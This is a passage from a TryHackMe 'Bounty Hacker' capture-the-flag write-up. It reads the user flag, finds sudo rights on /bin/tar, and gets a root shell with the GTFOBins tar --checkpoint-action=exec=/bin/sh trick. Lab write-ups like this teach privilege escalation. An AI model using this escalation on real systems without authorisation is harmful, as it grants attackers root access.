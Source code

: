 #### user.txt flag <a href="#user.txt" id="user.txt"></a>

```bash
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{***************}
lin@bountyhacker:~/Desktop$ 
```

### Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

#### list user's privileges <a href="#user-priv" id="user-priv"></a>

```bash
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:~$ 
```

[GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo)

```bash
    sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

#### Priv Esc <a href="#root.txt" id="root.txt"></a>

```bash
lin@bountyhacker:~$  sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
#     
# cd /root
# ls
root.txt
# cat root.txt
THM{*************}
# 
```

### I hope you enjoyed the write-up

* [Linkedin](https://www.linkedin.com/in/juba0x00/)
* [Twitter](https://twitter.com/juba0x00/)
* [TryHackMe](https://tryhackme.com/p/Juba0x430x55)

